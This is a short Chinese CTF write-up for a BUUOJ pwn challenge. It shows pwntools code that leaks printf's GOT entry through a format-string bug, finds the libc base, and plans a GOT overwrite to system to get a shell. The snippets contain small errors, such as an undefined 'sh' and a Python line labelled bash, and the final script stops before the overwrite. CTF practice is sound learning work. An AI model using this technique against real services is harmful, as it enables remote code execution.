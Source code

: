 ![alt text](image-24.png)
得到libc基址
```python
payload = 'A' + p32(printf_got)+ 'B' + '%8$s'
r.sendafter("Please tell me:",payload)

r.recvuntil('B')
printf_addr = u32(sh.recv(4))
print(hex(printf_addr))

libc = LibcSearcher('printf', printf_addr)
libcbase = printf_addr - libc.dump('printf')
system_addr = libcbase + libc.dump('system')
```
接下来利用fmtstr_payload，将printf地址修改为system地址
```bash
payload='a'+fmtstr_payload(8,{printf_got:system},write_size = "byte",numbwritten = 0xa)
```
0xa=1(即payload上的a)+9(Repeater:字符串的长度)
之后传入 ‘/bin/sh’ 即可以获取shell
exp：
```python
from pwn import *
from LibcSearcher import *

context(os='linux',arch='i386',log_level='debug')

r = remote("node5.buuoj.cn","29802")
elf=ELF("./4")

printf_got = elf.got['printf']

payload =b'a' + p32(printf_got) +b'22'+ b'%8$s'
r.sendafter('me:', payload)
r.recvuntil("22")
printf_addr = u32(r.recv(4))

libc=LibcSearcher('printf',printf_addr)

libc_base=printf_addr-libc.dump('printf')
system=libc_base+libc.dump('system')
```